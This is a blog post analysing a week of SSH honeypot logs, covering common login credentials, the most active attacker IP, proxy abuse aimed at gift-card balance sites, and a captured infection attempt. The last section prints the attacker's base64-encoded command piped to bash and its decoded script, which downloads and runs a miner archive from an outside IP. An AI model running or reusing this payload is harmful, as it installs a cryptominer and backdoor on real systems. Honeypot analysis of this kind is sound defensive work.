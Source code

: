 ```yaml
---
layout: post
title:  "Analyzing Honey Pot data"
---
```

We are going to look through the honey pot data from ```6-4-2019 - 6-13-2019```. I set up a simple honeypot using [Cowrie](https://github.com/cowrie/cowrie). Setting up the honey pot was pretty easy.  I choose this honey pot becuase it had a large following and a bunch of features. Instead of using the suggested output organizer, I have been exporting the logs to my pc every morning and then using ruby scripts I wrote to parse the data.

## Attempted Logins Stats

In Figure 1 we can see that there was a staggering 44k logins with the username ```ruby root```. Which makes sense because a attacker would want root access to the machine so they could bascily do anything they want with the machine. 
![Top to usernames](https://i.imgur.com/hFOtHSN.png=100x20)<br>
Figure 1, Top 10 Username logins

In Figure 1, there was 44,014 logins for root but in Figure 2, there was 44,030 password logins using ```admin```. All the passwords used are common passwords that would be found in a password list. With the expection of password ``` usuario```. After some Googling I found out that it is spanish for ```user```. 
![Top 10 Passwords](https://i.imgur.com/M6kF6cG.png=100x20)<br>
Figure 2. Top 10 Password logins


## Most active IP

In Figure 3, I calculated the most active Ip. This was the Ip that was found the most. We can see that the most active IP is ```58.59.2.26```. That IP was found 199 times. 

![Mot-Active-Ip](https://i.imgur.com/MigMZwe.png=100x20)<br>
Figure 3, Most Active IP

In Figure 4, I did some research about the IP. The IP is from a Chinese ISP named ```China Telecom Shandong```

![IP-Lookup-58.59.2.26](https://i.imgur.com/AOIiK0Q.png=100x20)<br>
 Ip information for 58.59.2.26<br>
 
 In Figure, 5 is a picture of all the commands that the attacker used on the honeypot.
 
 ![commands-used-by-58.59.2.26](https://i.imgur.com/XOaWK3l.png=100x20)<br>
 Figure 5, List of commands used by 58.59.2.26<br>
 
 It looks like the attacker where just getting information about the box. They did not download or execute anything that would infect or own the system. 

## Other activities 
What I found intresting is that a couple of attackers tired to use it as a proxy. They would request a bunch of sites, mostly cryptocurrency, popular sites such as netflix. But they also where targeting Gift Cards balance checking sites. Some of the sites they tired to use are listed bellow.

```ruby
amidacarecard.com
ya.ru
www.onevanilla.com
www.myvanillabalance.com
chekfast.zennolab.com
www.palotterygiftcard.com
www.mybalancenow.com
www.alabamagiftcard.com
www.wellnesshealthvisacard.com
www.essilorrebatecard.com
www.cfnarewardcard.com
services.incommgateway.com
heck2.zennolab.com
www.pizzahut.com
order.dominos.com
chaturbate.com
www.nrpcard.com
api.bjs.com
www.essilorrebatecard.com
gc.mallofamerica.com
www.mybalancenow.com
google.com
www.google.ca
www.facebook.com
www.pof.com
paxful.com
www.dell.com
www.netflix.com
www.instagram.com
www.pof.de
www.ourtime.com
www.match.com
www.kraken.com
www.footlocker.com
kith.com
```



# Malware infection attempt

I wrote a different  post that goes into more details. But when I was viewing the logs I noticed a long string that looks like a base64 string. The base64 encoded string looked like this:
```ruby 

cd /var/tmp; echo \"IyEvYmluL2Jhc2gKY2QgL3RtcApybSAtcmYgLlgxNS11bml4Cm1rZGlyIC5YMTUtdW5peApjZCAuWDE1LXVuaXgKcGtpbGwgLTkgY3JvbiA+IC5vdXQKd2dldCAtcSBodHRwOi8vNTQuMzcuNzAuMjQ5L2RvdGEyLnRhci5neiB8fCBjdXJsIC1PIC1mIGh0dHA6Ly81NC4zNy43MC4yNDkvZG90YTIudGFyLmd6CnNsZWVwIDdzICYmIHRhciB4ZiBkb3RhMi50YXIuZ3oKI3JtIC1yZiBkb3RhMi50YXIuZ3oKY2QgLnJzeW5jCmNobW9kIDc3NyAqCmNkIC90bXAvLlgxNS11bml4Ly5yc3luYy9hICYmIC4vY3JvbiB8fCAuL2FuYWNyb24KZXhpdCAw\">.threatstackcloudsecops; base64 --decode .threatstackcloudsecops | bash
```
When ran it will download and execute a miner. But it will also add their ssh key to the ```.ssh``` directory. The malware also sets up a hidden SSH sever that allows the attckers to login. Below is the decoded base64 string.
```ruby
#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://54.37.70.249/dota2.tar.gz || curl -O -f http://54.37.70.249/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0
```
